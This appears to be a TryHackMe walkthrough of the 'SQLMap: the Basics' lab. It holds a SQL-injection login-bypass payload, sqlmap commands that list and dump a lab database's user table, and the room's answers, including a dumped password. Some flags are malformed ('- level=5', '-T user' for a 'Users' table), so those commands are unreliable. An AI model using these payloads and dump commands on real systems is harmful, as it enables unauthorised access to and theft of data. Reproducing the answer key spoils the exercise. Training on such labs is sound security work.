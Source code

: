 # SQLMap: the Basics Tryhackme Walkthrough 

Room URL: https://tryhackme.com/room/sqlmapthebasics


---
## Task 1: Introduction

### What is SQL injection (SQLi)?
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

Source: [portswigger](https://portswigger.net/web-security/sql-injection)

**Question: Which language builds the interaction between a website and its database?**

**Answer:** sql

---

## Task 2: SQL Injection Vulnerability

Imagine you’re logging into a website, trying to get through a login page with your trusty username "John" and secret password "Un@detectable444." Typically, the website sends a query to the database, which looks a bit like this:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

The database checks if you exist and whether that password matches. If yes, you’re in! But hackers have a trick up their sleeve called **SQL Injection** that lets them twist this query into something that works for them.

Let’s say this login page is sloppy with security and doesn’t clean up user input properly. An attacker could type something like:

**Username:** John  
**Password:** abc' OR 1=1;-- -

Now the query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

The password part now reads:

- Password = 'abc' (no match)
- OR 1=1 (which is always true!)

So the database just shrugs and lets them in. The `--` tells the database to ignore the rest, bypassing the real password check.

**Lesson Learned:** Clean up your input fields, or you might just hand out the keys to the kingdom, courtesy of SQL Injection!

**Question: Which boolean operator checks if at least one side of the operator is true for the condition to be true?**

**Answer:** or

**Question: Is 1=1 in an SQL query always true? (YEA/NAY)**

**Answer:** Yea

---

## Task 3: Automated SQL Injection Tool

Feeling like hacking databases is too much typing? Enter **SQLMap**, the database burglar’s best friend.

Forget trying to break in manually — SQLMap does the hard work for you. It’s like a tour guide for database heists, handling everything from picking the lock to finding the treasure.

**SQLMap** is a command-line tool that turns you into a database wizard, as long as you have permission (seriously). Start by launching it in your Linux terminal, and if you’re feeling overwhelmed, try `--wizard` mode. Think of it as SQLMap holding your hand.

Want to test a URL for weakness? Just feed it a target URL, like:

```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```

SQLMap will dig in. If it finds a weak point, it’ll reveal the details: error-based, time-based, UNION query, etc.

Once you’ve confirmed a vulnerable URL:

- Use `--dbs` to list the databases
- Use `-D` to pick one
- Use `--tables` to browse inside
- Use `--dump` to get all the records

In a few commands, you’re a digital Indiana Jones uncovering the secrets of SQL!

**Question: Which flag in the SQLMap tool is used to extract all the databases available?**

**Answer:** --dbs

**Question: What would be the full command of SQLMap for extracting all tables from the “members” database?**  
**(Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Answer:**
```
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---
# TASK 4: Practical Exercise

### Extract the Full GET Request URL:
To view GET parameters, right-click on the page and select “Inspect.”

Go to the Network tab, enter dummy credentials (e.g., email=test and password=test), and hit login.

Locate the GET request; it will look like this:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Copy this URL, as it includes the GET parameters.

### SQLMap Command Setup:
In the terminal, use the SQLMap tool with this command (substitute MACHINE_IP with the IP address displayed in your AttackBox):

`sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' - level=5`

Wrapping the URL in single quotes (‘ ‘) avoids issues with special characters.

### Answering SQLMap Prompts:
When SQLMap asks questions, respond as follows:

- Skip test payloads for other DBMSes: Enter `y`.
- Include all MySQL-specific tests: Enter `y`.
- Try random integer values for ‘–union-char’: Enter `y`.
- Keep testing other parameters if email is vulnerable: Enter `n`.

### SQLMap Results:
After running, SQLMap should identify SQL injection vulnerabilities in the email parameter.

**Question 1: How many databases are available in this web application?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” --dbs -level=5`

**Answer:** 6

**Question 2 : What is the name of the table available in the “ai” database?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” -D ai --tables`

**Answer:** Users

**Question 3 : What is the password of the email test@chatai.com?**

from the ai database dump the Users table

`sqlmap -u "http://<target-ip>/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5`

![image](https://github.com/user-attachments/assets/ab97d5ea-0c98-4ef1-b9af-2e8e53040d85)

**Answer:** 12345678
